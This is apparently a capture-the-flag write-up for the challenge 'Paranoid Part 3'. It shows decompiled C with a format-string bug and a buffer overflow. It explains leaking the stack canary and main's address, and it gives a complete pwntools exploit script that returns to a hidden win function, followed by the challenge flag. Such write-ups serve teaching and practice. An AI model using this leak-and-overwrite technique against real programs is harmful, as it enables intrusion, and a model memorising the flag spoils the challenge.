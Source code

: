 +++
title = "Paranoid Part 3"
date = 2024-07-04
authors = ["Abhinav I S"]
+++

First, we run checksec
<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

<br>

```c
void main(void)

{
  long in_FS_OFFSET;
  char local_68 [48];
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  puts("\nOkay Its getting serious now. Somehow I now suck at hiding my actual address.");
  puts("\nHence, I\'ve now decided to keep one of the strongest security guard on watch");
  puts("\nHe will make sure that no one gets in and collects any evidence against me");
  puts("\nHe\'s no ordinary guard I tell ya...The FBI fear him!");
  printf("\nCan you guess who he is?: ");
  fflush(stdout);
  read(0,local_68,0x23);
  printf("\nReally? you couldn\'t think of anyone better than ");
  printf(local_68);
  printf(
        "\nTill we meet again then my old friend...Give me your final message. You will likely not s ee me now for a long time: "
        );
  fflush(stdout);
  read(0,local_38,0x120);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

looking at the other functions, there is a safe_house function which we need to return to. The difference from paranoid part 2 is the existence of [a stack canary](https://ctf101.org/binary-exploitation/stack-canaries/)

opening the binary in GDB, examining addresses of RBP, and the value that gets printed from the stack, we can calculate the offset to the canary, and the address of main

1. give input %7$lx, the value that gets printed out is 0
2. examine stack and value of rbp

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}

3. clearly the canary is at %17$lx and the address of main is at %21$lx

Now, we can write the solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 33545)

    return r


def main():
    r = conn()  
    r.recv()
    r.sendline(b"%17$lx.%21$lx")
    data = r.recvuntil(b"better than ")
    data = r.recv()
    addresses = data.split(b"\n")[0]

    canary = addresses.split(b".")[0]
    main = addresses.split(b".")[1]

    # r.recv()
    win = int(main,16) - 211
    payload = b"A"*0x28 + p64(int(canary,16 ))+ b"B"*8 + p64(win)
    r.sendline(payload)
    r.recv()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

gives us the flag 
<br>

```
flag{Th15_pUnY_6u4rd_aint_S70pp1n_m33_1907ebe25bf}
```
